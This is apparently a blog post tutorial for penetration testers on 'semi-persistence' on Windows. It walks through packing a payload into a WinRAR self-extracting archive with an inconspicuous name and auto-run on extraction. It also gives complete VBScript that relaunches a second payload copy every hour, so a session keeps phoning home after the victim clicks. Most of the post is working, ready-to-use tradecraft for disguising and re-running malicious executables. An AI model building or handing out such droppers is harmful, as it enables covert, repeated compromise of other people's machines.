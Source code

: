 ```yaml
---
layout: post
title: Semi-Persistence
summary: How to get some semi-persistence using VBScript
featuredimage: /assets/semipersistence/semipersistence2.png
tags:
- payloads
---
```

     

Persistence is a great thing to have on a pentest, especially if testing from the outside. Persistence also seems to be a word that makes clients' hairs on the back of their necks stand up. Backdoors are a scary thing if you're in charge of keeping a network secure.

When it comes to installing persistence, there are quite a few options available such as Metasploit's persistence module or `scheduleme.rb`. These modules leave a permanent, like one would think, payload and schedule for phoning home to the tester's box. But what about when this is out of scope? 

Here's a method to keep a payload phoning home but leaves no permanent effects. 

Using WinRAR, we can pack our payload with a vbscript that sleeps for 60 minutes and then restarts the payload. 
With WinRAR installed, right click your favorite payload and select WinRar > Add to archive…
The window below will pop up. Select Create SFX archive and keep the Archive format set to RAR. You should also give your payload wrapper an inconspicuous name.

![](/assets/semipersistence/semipersistence1.png)


Now duplicate the payload that you just right-clicked and call it something different, it's renamed to `persistence_payload.exe` here. This will be the secondary payload that is run every 60-ish minutes. Why not just use the one payload? Just in case you can't migrate of off the original process, a second one is used for the persistence for safety.


Now create a text file named `persistence_script.vbs` and paste the following within it:

```vb
function launchit()
  WScript.sleep 90000
  set shell = createobject("wscript.shell")
     shell.run "persistence_payload.exe"
  WScript.sleep 90000
  killit()
end function

function killit()
  set objWMIService = GetObject ("winmgmts:")
  foundProc = False
  procName = "persistence_payload.exe"

  for each Process in objWMIService.InstancesOf ("Win32_Process")
        If StrComp(Process.Name,procName,vbTextCompare) = 0 then
            foundProc = True
            procID = Process.ProcessId
        End If
  Next
  If foundProc = True Then
        Set colProcessList = objWMIService.ExecQuery("Select * from Win32_Process where ProcessId =" &  procID)
        For Each objProcess in colProcessList   
            objProcess.Terminate()
        Next
        WScript.Sleep(1000) 'wait for a second
        Set colProcessList = objWMIService.ExecQuery("Select * from Win32_Process where ProcessId =" &  procID)
        If colProcessList.count = 0 Then
            WScript.Sleep(3600000)
            launchit()
        End If
  End If
end function

launchit()
```

Change the `persistence_payload.exe` line to match your persistent payload's name. After saving this, right click the payload wrapper and select WinRAR > Open with WinRAR. Then drag the persistent payload and `persistence_script.vbs` into WinRAR. You should end up with this:


![](/assets/semipersistence/semipersistence2.png)


Almost there, but we need this executable to do something when the victim clicks on it. Click the SFX button in the ribbon. Then under the SFX tab, select Advanced SFX Options. 
Now we have a number of options we can set, such as having this executable extract to a specified folder (`C:/Temp` maybe?), set the Overwrite mode to Overwrite all files (Update tab), and tell WinRAR what to run upon extraction.
After setting the first two options, open the Setup tab and in the Run after extraction box, enter the name of your normal payload (`payload.exe` here) and the VBScript (`persistence_script.vbs`). 

![](/assets/semipersistence/semipersistence3.png){: width="325px"}


Now when the payload is run, it will run as expected (by calling `payload.exe`) and in Task Manager, a `wscript.exe` process will run waiting to re-rerun `persistence_payload.exe` every 60-ish minutes. Before re-running the payload, it will kill the process if it's still running so if you can't migrate you will lose that session -- best to keep it as a backup in those instances. 

Restarts and logoffs will kill `wscript.exe` resulting in the persistence being lost-- no worries about a permanent backdoor. This method can also be used to launch the initial payload multiple times when first run, if you experience flakiness issues with payloads.

